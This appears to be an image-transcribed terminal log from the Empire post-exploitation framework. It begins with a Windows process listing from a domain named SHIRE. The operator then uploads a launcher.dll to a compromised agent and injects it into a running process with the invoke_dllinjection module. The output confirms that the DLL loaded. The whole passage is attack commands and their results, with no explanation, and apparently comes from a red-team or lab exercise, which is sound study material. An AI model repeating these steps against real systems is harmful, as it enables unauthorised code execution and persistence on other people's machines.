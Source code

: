```
taskhostw                                                      6792 x64  SHIRE\nmartha            
svchost                                                        6856 x64  NT AUTHORITY\SYSTEM      
svchost                                                        7248 x64  NT AUTHORITY\NETWORK     
                                                                         SERVICE                  
svchost                                                        7292 x64  NT AUTHORITY\SYSTEM      
svchost                                                        7844 x64  NT AUTHORITY\SYSTEM      
WmiPrvSE                                                       7944 x64  NT AUTHORITY\NETWORK     
                                                                         SERVICE                  
conhost                                                        7976 x64  SHIRE\pgustavo           
MicrosoftEdgeSH                                                8376 x64  SHIRE\nmartha            
svchost                                                        8516 x64  NT AUTHORITY\SYSTEM      
RuntimeBroker                                                  8804 x64  SHIRE\nmartha            
MicrosoftEdge                                                  9012 x64  SHIRE\nmartha            
browser_broker                                                 9108 x64  SHIRE\nmartha            
Windows.WARP.JITService                                        9160 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE

(Empire: TKV35P8X) > upload /tmp/launcher.dll
[*] Tasked agent to upload launcher.dll, 155 KB
[*] Tasked TKV35P8X to run TASK_UPLOAD
[*] Agent TKV35P8X tasked with task ID 30
(Empire: TKV35P8X) > usemodule code_execution/invoke_dllinjection
(Empire: powershell/code_execution/invoke_dllinjection) > set ProcessID 3124
(Empire: powershell/code_execution/invoke_dllinjection) > execute
[*] Tasked TKV35P8X to run TASK_CMD_WAIT
[*] Agent TKV35P8X tasked with task ID 31
[*] Tasked agent TKV35P8X to run module powershell/code_execution/invoke_dllinjection
(Empire: powershell/code_execution/invoke_dllinjection) > System.Diagnostics.ProcessModule (launcher.dll)
```
